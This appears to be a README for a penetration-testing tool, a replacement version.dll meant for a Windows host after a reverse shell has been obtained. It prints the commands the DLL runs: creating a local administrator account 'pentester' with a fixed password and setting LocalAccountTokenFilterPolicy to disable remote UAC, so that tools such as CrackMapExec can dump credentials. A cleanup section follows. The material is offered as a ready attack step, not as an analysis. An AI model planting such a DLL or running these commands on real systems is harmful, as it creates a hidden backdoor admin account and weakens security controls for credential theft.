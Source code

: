 # Allow Remote Credentials Dump

## Scenario
---

You just got a reverse shell on a box, running `whoami` and `net localgroup Administrators` shows you that you are part of the local admin group. 

But you don't have any credentials to run tools like `CrackMapExec` remotely. Or you have Credentials, but when you are providing them to `CrackMapExec` it doesn't mark the user as `Pwn3d` and you can't get any credentials.

The reason being that Remote UAC is probably enabled for administrative account, making it impossible to connect on the target with `impacket-wmiexec` or dumping creds with `CrackMapExec`.

---

## Description
---

This version of `version.dll` creates a new account with the name `pentester` and password `pentest` and adds it to the local `Administrators` group.

Therefore it adds a key in the registry in order to disable Remote UAC for local admins account.

The DLL runs the following commands:

```
net user pentester pentest /add
net localgroup Administrators pentester /add
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

---

## Cleaning Up
---

Since we added a new account and tampered with the registry, we need to run these commands in an elevated shell in order to bring things back to normal:

```
net user pentester /DELETE
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 0 /f
```
---




